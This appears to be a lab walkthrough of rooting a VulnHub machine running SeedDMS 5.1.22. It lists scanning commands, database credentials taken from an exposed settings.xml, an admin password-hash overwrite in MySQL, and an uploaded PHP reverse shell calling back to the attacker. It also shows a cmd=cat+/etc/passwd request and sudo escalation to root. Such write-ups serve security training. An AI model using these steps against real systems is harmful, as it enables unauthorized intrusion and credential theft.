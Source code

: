 Target Identification

Identify the IP addr of the target machine 
MAC address: 08:00:27:9c:8d:48 
  
$sudo netdiscover -r 172.20.10.0/24 
  
<img src='./Assets/Screenshot_1.png' alt='descriptive_pic'/>
  
172.20.10.2      


Port Scan
  
• Scan for open ports 
• To get information about open services 
  
$nmap -sV -p- 172.20.10.2 
  
<img src='./Assets/Screenshot_2.png' alt='descriptive_pic'/>

  
Open ports 
• 80             http 
• 3306        mysql 
• 33060     mysqlx 
  
  
• The SSH port is not open 
• We have to find a way to do remote command execution on the target  
• We can't  bruteforce  
• We may have to read the codes on the webserver 
  
	
Inspect the website 

Visit the URL: http://172.20.10.2/ 

There is no much information on the homepage 
 
<img src='./Assets/Screenshot_3.png' alt='descriptive_pic'/>

  
• Right click on the webpage 
• select inspect element 
• select network tab 
• click on reload 
• Scroll up, you locate a main.js file. Click on it. 
 
<img src='./Assets/Screenshot_4.png' alt='descriptive_pic'/>

 
 
* At the right hand side of the page, click on Response 
* Scroll down, you will see a comment talking about js file (seeddms51x) 
* //make sure this js file is same as installed app on our server endpoint: /seeddms51x/seeddms-5.1.22/ 
 
<img src='./Assets/Screenshot_5.png' alt='descriptive_pic'/>

 
  
There is a Document Management System link (/seeddms51x/seeddms-5.1.22/) 

  
Enumerate the directories 

To find hidden files

┌──(kali㉿kali)-[~/Downloads/vulnhub/hackmeplease] 
└─$ gobuster dir -u  http://172.20.10.2/seeddms51x/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 

<img src='./Assets/Screenshot_6.png' alt='descriptive_pic'/>


There are four hidden files

Lets look at git repo for any exploit for the DMS 
  
https://sourceforge.net/p/seeddms/code/ci/5.1.22/tree/ 
  
https://www.exploit-db.com/exploits/47022 
  
There are lots of directories in the repo 
conf which is the configuration of the web app 
  
  <img src='./Assets/Screenshot_7.png' alt='descriptive_pic'/>


  
  
   
http://172.20.10.2/seeddms51x/conf 
  
<img src='./Assets/Screenshot_8.png' alt='descriptive_pic'/>

  
• we got forbidden feedback for the directory 
• that means there is a .htaccess file that restrict directory browsing 
  
  
  <img src='./Assets/Screenshot_9.png' alt='descriptive_pic'/>


  
* .htaccess can be seen from the repository 
settings.xml template might be a flag 
* we can assume there might be a misconfiguration in .htaccess file which can give us access to the database credentials. 
Adding the settings.xml to the directory 
  
http://172.20.10.2/seeddms51x/conf/settings.xml 
  
  
<img src='./Assets/Screenshot_10.png' alt='descriptive_pic'/>

  
* we got the database server's username and password 
* Login to the server 
  
  
$mysql -h 172.20.10.2  -u seeddms -p seeddms  -D seeddms 
  
<img src='./Assets/Screenshot_11.png' alt='descriptive_pic'/>

  
We are to see the list of tables. 
  
Command:  show tables; 
  
<img src='./Assets/Screenshot_12.png' alt='descriptive_pic'/>

  
  
* There are different tables but there is one that is users 
* This will have the list of users in the database.
* Lets see its content 
  
command: select * from users; 
  
  <img src='./Assets/Screenshot_13.png' alt='descriptive_pic'/>


  
* we got the password of a user but we don't his username 
* we can update the password of the admin then login into the web app. 
  
command: SELECT login, pwd FROM tblUsers; 
  
<img src='./Assets/Screenshot_14.png' alt='descriptive_pic'/>

  
* we have the md5 hash of admin password 
* Lets change the password to admin and generate its MD5 hash. 
  
  <img src='./Assets/Screenshot_15.png' alt='descriptive_pic'/>


Update the new password hash 
  
command: UPDATE tblUsers 
*   →  SET pwd= '21232f297a57a5a743894a0e4a801fc3' 
*   →  WHERE login= 'admin' ; 
  
  
  <img src='./Assets/Screenshot_16.png' alt='descriptive_pic'/>


  
  
Then go to the login page 
  
<img src='./Assets/Screenshot_17.png' alt='descriptive_pic'/>

  
Then login using admin as username and password 
  
  
<img src='./Assets/Screenshot_18.png' alt='descriptive_pic'/>

  
* It seems this web page is to manage documents online. 
* There is a tab to upload file,s. 
* Lets create a web shell and upload it to gain remote command execution. 
 
 
<img src='./Assets/Screenshot_19.png' alt='descriptive_pic'/>

 
 
* Use locate command to locate the reverse shell php 
* Scroll down till you locate  "/usr/share/laudanum/php/php-reverse-shell.php" 


<img src='./Assets/Screenshot_20.png' alt='descriptive_pic'/>
                                   

  
shell.php was created 
 
<img src='./Assets/Screenshot_21.png' alt='descriptive_pic'/>

 
* Edit the shell using nano command 
* Use down arrow key to scroll down to the line of the IP and Port 
* Change the IP addr to IP addr of the (Attacking machine) and the port number to any number as listening port 
* Use Ctrl O to save and Ctrl X to exit 
 
<img src='./Assets/Screenshot_22.png' alt='descriptive_pic'/>

 
Upload it 
  
  

  <img src='./Assets/Screenshot_23.png' alt='descriptive_pic'/>

  
  
  <img src='./Assets/Screenshot_24.png' alt='descriptive_pic'/>


  
* The Web shell (shell.php) has been uploaded. 
* Click on the uploaded shell to see its information 
The file ID is 7 in my case. 
  
 <img src='./Assets/Screenshot_25.png' alt='descriptive_pic'/>


  
Lets start listening from the target machine using the port  
 
<img src='./Assets/Screenshot_26.png' alt='descriptive_pic'/>

 
 
  
https://www.exploit-db.com/exploits/47022 
1. : Now after uploading the file check the document id corresponding to the document. 
1. : Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser. 
  
Note: Here "data" and "1048576" are default folders where the uploaded files are getting saved. 
  
* Default: example.com/data/1048576/"document_id"/1.php 
* Change the document ID to 7. 
http://172.20.10.2/seeddms51x/data/1048576/7/1.php 
  
 
<img src='./Assets/Screenshot_27.png' alt='descriptive_pic'/>

 
We are listening at port 465 
  
<img src='./Assets/Screenshot_28.png' alt='descriptive_pic'/>

* We have the reverse shell. 
* Go to the etc/passwd file. 
* we found the username as saket. 
  
command: grep bash etc/passwd 
  
<img src='./Assets/Screenshot_29.png' alt='descriptive_pic'/>

  
Let's upgrade the shell to bash shell using python script. 
  
command: python3 -c 'import pty;pty.spawn("/bin/bash")' 
  
<img src='./Assets/Screenshot_30.png' alt='descriptive_pic'/>

  
* Now we have the bash shell. 
* Lets change the directory to saket. 
* we already have his password (Saket@#$1337).
  
$ su -l saket 
  
<img src='./Assets/Screenshot_31.png' alt='descriptive_pic'/>

  
Check the sudo permission of the user 
    

  <img src='./Assets/Screenshot_32.png' alt='descriptive_pic'/>

  
* The user saket has access to everything. 
* Lets get to the root. 
  
  
<img src='./Assets/Screenshot_33.png' alt='descriptive_pic'/>

  
We got the root shell
